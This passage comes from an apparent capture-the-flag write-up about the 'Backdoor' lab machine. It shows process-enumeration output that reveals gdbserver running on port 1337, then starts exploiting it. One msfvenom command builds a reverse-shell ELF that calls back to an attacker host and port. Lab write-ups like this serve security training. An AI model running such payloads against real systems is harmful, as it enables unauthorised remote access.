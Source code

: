 This is a bit slow, but good enough to do the job. I hope to come back
and do a post and/or video on parallelizing this in the future.

The script clears the first 1000 processes in a minute or so, which is
enough to spot PID 851:



    oxdf@hacky$ ./brute_processes.sh  
    1: /sbin/init auto automatic-ubiquity noprompt 
    486: /lib/systemd/systemd-journald 
    512: /lib/systemd/systemd-udevd 
    529: /lib/systemd/systemd-networkd 
    ...[snip]...
    826: /usr/sbin/cron -f 
    829: /usr/sbin/CRON -f 
    830: /usr/sbin/CRON -f 
    851: /bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done 
    853: /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
    865: /usr/sbin/atd -f 
    867: sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups 
    887: /usr/sbin/apache2 -k start 
    898: /usr/lib/accountsservice/accounts-daemon 
    ...[snip]...



This process is:



    /bin/sh -c while true;
        do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; 
    done



It's running `gdbserve` as user in a loop on port 1337.

### Exploit gdbserver

#### Upload Rev Shell Elf

Hacktricks has a
[page](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver)
on exploiting `gdbserver`. I suspect at least the first technique was
tested on Backdoor (given the use of port 1337 and the location of
`/home/user`). This technique is to create an elf, and then upload it to
the remote debugger and run it there.

I'll create a simple reverse shell payload with `msfvenom`:



    oxdf@hacky$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 PrependFork=true -f elf -o rev.elf
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 106 bytes
    Final size of elf file: 226 bytes
    Saved as: rev.elf
